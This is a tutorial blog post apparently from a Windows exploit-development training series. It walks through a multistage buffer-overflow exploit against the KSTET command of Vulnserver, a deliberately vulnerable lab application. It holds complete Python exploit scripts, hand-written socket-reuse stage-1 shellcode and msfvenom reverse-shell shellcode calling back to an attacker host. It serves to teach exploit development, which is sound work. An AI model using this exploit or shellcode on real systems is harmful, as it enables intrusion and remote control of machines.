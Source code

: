 :slug: vulnserver-kstet/
:date: 2020-06-17
:category: attacks
:subtitle: Exploiting in stages
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by Ganapathy Kumar on Unsplash
:description: This series of posts deal on hacking Vulnserver, a Vulnerable-by-Design application that can used to practice Windows explotation. We've been faced to several kinds of restrictions and we've been able to overcome them. This post will show how to exploit the KSTET command using a different method.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/fjT3Zn2IhIk

= KSTET: Multistage exploiting

This is the fifth article on the series of exploiting `Vulnserver`,
a VbD (Vulnerable-by-Design) application in which you can practice Windows
exploit development.

In previous posts, we have been able to exploit Vulnserver commands:

. `TRUN` was link:../vulnserver-trun/[exploited] using a direct EIP overwrite,
with virtually no space or characters restrictions to work on.
. `GMON` used a
link:../vulnserver-gmon/[Structured Exception Handling (SEH)] overwrite to
take control of the execution flow.
. `GTER` showed up with space restrictions and we were able to exploit it
using link:../vulnserver-gter/[egghunters] and
link:../vulnserver-gter-no-egghunter/[WinSocket stack reuse].

In this post we will exploit the `KSTET` command on where,
as we will see later, we will be faced to a more restrictive space buffer to
work on, but we will use a different way to exploit it.

Let's start from the scratch.

== Fingerprinting KSTET

Enumerating and fingerprinting is the most important step when verifying
the security of any target.

Let's check how the `KSTET` command behaves:

[source,bash]
----
$ telnet 192.168.0.20 9999
Trying 192.168.0.20...
Connected to 192.168.0.20.
Escape character is '^]'.
Welcome to Vulnerable Server! Enter HELP for help.
KSTET hello
KSTET SUCCESSFUL
----

Well, easy enough. Now we are going to do the same but we will check it
under our debugger. I will use Immunity Debugger.

The first step is to identify where the `KSTET` command is processed.

We can do that by right clicking,
then `Search for -> All referenced text strings`, right click again, then
`Search for text` and type `KSTET`. Make sure that `Entire scope` is selected.
Now, select the match on where `KSTET` string is presented and set a
breakpoint:

image::debug1.gif[Debugging KSTET]

With that in place, we can start again our connection to `Vulnserver` and
see what happens under the hood:

image::debug2.gif[Debugging KSTET]

As you can see, several things are happening:

. Our breakpoint was reached when we typed `KSTET hello`.
. Several external functions are called, including `strncpy`, `malloc`,
`memset`.
. But there is one that stands out: `strcpy`, which will copy anything that
is on one buffer to another, without checking buffer boundaries.

Let's see what happens when we issue something larger than a `hello` to the
`KSTET` command:

image::crash1.gif[Crash]

Uggh! With a very short string, Vulnserver crashed and we overwrote `EIP`,
which means that we can control the execution flow of the application.

With that, we can start creating our proof-of-concept exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 200
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::poc1.gif[Crash]

That's good news. However, the injected string was really short and maybe
we'd have a narrow buffer space to work on.

== Checking available buffer space

If we check the state of the application after the crash, we will see this:

image::space1.png[Buffer space]

In the dump window (bottom left), we see our injected buffer. In the PoC,
we sent 200 `A` chars but as you can see here, the total amount of injected
bytes, including the word `KSTET` itself is only 0x63 or 99 bytes.

In the exploitation of `GTER` command, we had 140+ bytes to work on and we
used two techniques:
link:../vulnserver-gter-no-egghunter/[WinSocket stack reusing] and
an link:../vulnserver-gter/[egghunter].

The first one is not viable because altough we reduced the shellcode length to
the half, the resultant shellcode was 128 bytes.

We could use an `egghunter` here but that wouldn't be much fun. Why make it
easy if we can do it the hard way?

Ok, let's start by checking the offset of the crash, by creating a cyclic
pattern of 100 characters using `pattern_create.rb` tool from Metasploit:

[source,bash]
----
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
----

And update our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::offset1.gif[Cyclic pattern]

As you can see, `EIP` was overwritten with `63413363`. We can check the
offset of that bytes on our cyclic pattern to get the offset on where `EIP`
gets overwritten:

[source,bash]
----
$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
----

Now, check that offset by updating our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    b'B' * 4 +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And run it:

image::offset2.gif[Cyclic pattern]

Wonderful! We know exactly how to overwrite `EIP` to get control over the
execution flow.

== Exploiting

As with the link:../vulnserver-trun/[TRUN] and link:../vulnserver-gter/[GTER]
commands, we have a direct `EIP` overwrite here and the `ESP` register
points directly to our controlled buffer. That means that we can look for
a `JMP ESP` instruction and overwrite `EIP` with its address to take
control of the execution flow. We can do that using `mona.py` plugin:

[source,bash]
----
!mona jmp -r esp -cp nonull -o
----

This would tell `mona` to look for instructions that can be used to jump to
`ESP` (`jmp -r esp`), excluding pointers with null bytes (`-cp nonull`) and
exlude OS DLLs (`-o`). The result is this:

image::mona1.png[JMP ESP]

We can choose any of those 9 pointers. I'll choose the one at `625011BB`.

Now, we can update the exploit with that address:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::jmp1.gif[JMP ESP]

Great! However, as you can see, we landed to a 20 bytes buffer where we
put the `C` chars but we have 66 bytes above on the buffer of the `A` chars.

With a short jump backwards we can easily jump to that place:

image::jmp2.gif[JMP backwards]

The resultant bytes were `EB B5`. We can update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::jmp3.gif[JMP backwards]

But again, we were brutally reminded that we have a narrow buffer space
to work on.

To workaround that constrain, we will use this time a 2-stage exploit, where
the first stage will be a very short shellcode that opens the door to the
second stage which will contain our reverse shellcode.

== Stage 1: Reusing sockets

As we saw on the `GTER` link:../vulnserver-gter-no-egghunter/[exploitation post],
we were able to reuse part of the `WinSocket` calling stack to minimize
the final length of our shellcode. That time, the resultant shellcode was
128 bytes. We need to reuse something more in order to fit our stage-1
shellcode in less than 70 bytes of buffer.

Let's check a simplified structure of a TCP server and client interaction:

.taken from https://www.geeksforgeeks.org/socket-programming-cc/
image::socket1.png[TCP Server]

We can see the different functions needed by both the server and client to
perform a TCP communication.

And you can notice that the actual data exchange occurs at the end, by
sending and receiving information.

What we will do for our stage-1 shellcode is take advantage of that calling
stack, and create a shellcode with only a new `recv()` call instance, reuse
the socket handle that uses Vulnserver to bind to port `9999` and set it up
to receive and execute our stage-2 payload that will contain the reverse
shellcode.

But first, we need to know the structure of the `recv()` call:

.Taken from https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-recv
[source,cpp]
----
int recv(
  SOCKET s,
  char   *buf,
  int    len,
  int    flags
);
----

Easy! The parameters are really simple:

. `SOCKET s` is the socket handle
. `char *buf` is a pointer on where the received data will be stored
. `int len` is the total amount of data expected
. `int flags` modifies the behavior of the `recv()` call. In our case it
can be zero.

But first, we need to know 2 things:

. The address of the `recv()` call in the system.
. The value of the socket handle.

To do that, we can use the debugger again, by right clicking on the
`CPU` window, selecting `Search for -> All intermodular calls`,
look for the call to `WS2_32.recv` and set a breakpoint on it:

image::recv1.gif[recv() call location]

Now create a new connection:

image::recv2.gif[recv() call]

Wonderful! We can see the parameters of the `recv()` call on
on the stack window (bottom right) from where we can get the value of the
socket handle (`144`). We also got the address of the `recv()` function
at `0040252C`.

With all the needed values, it's time to write some Assembler!
Remember that we need to avoid null bytes and we have to push the parameters
in reverse order:

[source,asm]
----
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'flags' parameter = 0
add bh,0x4              ; Make EBX = 00000400 = 1024 bytes
push ebx                ; Push `len` parameter = 1024 bytes
mov ebx,esp		        ; Move the current pointer of ESP into EBX
add ebx,0x64            ; Point EBX the original ESP to make it the pointer on
                        ; where our stage-2 payload will be received
push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
xor ebx,ebx             ; Zero out EBX again
add ebx,0x144           ; Make EBX = 144 that is the value of socket handle
push ebx                ; Push `s` parameter = 144
mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
                        ; null bytes. So 40252C90 is shift-left padded with 90
shr eax,0x8             ; Remove the '90' byte of EAX by shifting right.
                        ; This makes EAX = 0040252C
call eax                ; Call recv()
----

That looks good, but in fact, that code has a problem: the value of the
socket handle is created dynamically at runtime. However,
the socket handle is nothing but an integer.

Having noted that, we can update our shellcode to brute force the value
of the socket, starting from `0` until it finds the right one!:

.shellcode.asm
[source,asm]
----
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor edi,edi             ; Zero out EDI
socket_loop:            ; Our bruteforce loop starts here
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'flags' parameter = 0
add bh,0x4              ; Make EBX = 00000400 = 1024 bytes
push ebx                ; Push `len` parameter = 1024 bytes
mov ebx,esp		        ; Move the current pointer of ESP into EBX
add ebx,0x64            ; Point EBX the original ESP to make it the pointer on
                        ; where our stage-2 payload will be received
push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
inc edi                 ; Make EDI = EDI + 1
push edi                ; Push socket handle `s` parameter = EDI = EDI + 1
mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
                        ; null bytes. So 40252C90 is shift-left padded with 90
shr eax,0x8             ; Remove the '90' byte of EAX by shifting right and
                        ; This makes EAX = 0040252C
call eax                ; Call recv()
test eax,eax            ; Check if our recv() call was successfully made
jnz socket_loop         ; If recv() failed, jump back to the socket loop where
                        ; EDI will be increased to check the next socket handle
----

That looks better. We can compile that using `nasm`:

[source,bash]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And obtain the shellcode using this:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x83\xec\x64\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47
\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3
----

Great! Our final stage-1 shellcode is only 34 bytes long!

Let's update our exploit to inject it:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

STAGE1 = (
    b'\x83\xec\x64\x31\xff\x31\xdb\x53\x80\xc7\x04\x53' +
    b'\x89\xe3\x83\xc3\x64\x53\x47\x57\xb8\x90\x2c\x25' +
    b'\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3'
)

PAYLOAD = (
    b'KSTET ' +
    # NOP Padding
    b'\x90' * 8 +
    STAGE1 +
    b'A' * (70 - 8 - len(STAGE1)) +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending stage-1 payload...')
    fd.sendall(PAYLOAD)
    # This will trigger our stage-1 payload
    fd.recv(1024)
    print('Done.')
----

And check it:

image::stage1payload.gif[Stage-1 payload]

Wonderful! Our brute forcer was able to discover the socket handle value
on `EDI=0x144` and it's ready to receive our stage-2 payload!

== Stage 2: Injecting a reverse shellcode

Now all that's left is to create a reverse shellcode and send it over our
stage-1 payload backdoor. As a bonus, as we control the `recv()`
call, we are not limited by bad chars on the shellcode.

Let's create it:

[source,bash]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=none -f python -v SHELL
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of python file: 1660 bytes
SHELL =  b""
SHELL += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
SHELL += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
SHELL += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
SHELL += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
SHELL += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
SHELL += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
SHELL += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
SHELL += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
SHELL += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
SHELL += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
SHELL += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
SHELL += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
SHELL += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
SHELL += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
SHELL += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
SHELL += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8"
SHELL += b"\x00\x12\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
SHELL += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
SHELL += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
SHELL += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
SHELL += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
SHELL += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
SHELL += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
SHELL += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
SHELL += b"\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6"
SHELL += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
SHELL += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
----

And update our exploit:

[source,python]
----
import socket
import struct
import time

HOST = '192.168.0.20'
PORT = 9999

STAGE1 = (
    b'\x83\xec\x64\x31\xff\x31\xdb\x53\x80\xc7\x04\x53' +
    b'\x89\xe3\x83\xc3\x64\x53\x47\x57\xb8\x90\x2c\x25' +
    b'\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3'
)

SHELL =  b""
SHELL += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
SHELL += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
SHELL += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
SHELL += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
SHELL += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
SHELL += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
SHELL += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
SHELL += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
SHELL += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
SHELL += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
SHELL += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
SHELL += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
SHELL += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
SHELL += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
SHELL += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
SHELL += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8"
SHELL += b"\x00\x12\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
SHELL += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
SHELL += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
SHELL += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
SHELL += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
SHELL += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
SHELL += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
SHELL += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
SHELL += b"\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6"
SHELL += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
SHELL += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

# Create STAGE2 with the shellcode and pad the rest of the
# 1024 buffer with NOPs
STAGE2 = SHELL + b'\x90' * (1024 - len(SHELL))

PAYLOAD = (
    b'KSTET ' +
    # NOP Padding
    b'\x90' * 8 +
    STAGE1 +
    b'A' * (70 - 8 - len(STAGE1)) +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending stage-1 payload...')
    fd.sendall(PAYLOAD)
    # This will trigger our stage-1 payload
    fd.recv(1024)
    time.sleep(3)
    print('Sending stage-2 payload...')
    fd.sendall(STAGE2)
    print('Boom!')
----

Several things are worth to mention:

. We created a `STAGE2` variable with the shellcode and padded the rest of
the 1024 bytes with NOPs (`\x90`).
. We added a `time.sleep(3)` to wait for the brute force to get the socket
handle.
. And finally we send the stage-2 payload.

Let's see it in action:

image::stage2payload.gif[Stage-2 payload]

Beautiful! As you can see, the shellcode was injected below our execution flow
so it will be eventually reached and triggered. Let's see if we got the shell:

image::success.gif[Success]

Woohooo! We got our shell! And in a lot more fun way than with egghunters, huh?

You can download the final exploit link:exploit.py[here]

== Conclusion

Multistage exploitation is a very cool method to use the available bytes to
create exploits. Tools like Metasploit use staging to deliver complex
payloads like `Meterpreter`, but when you do it yourself is a lot more
rewarding!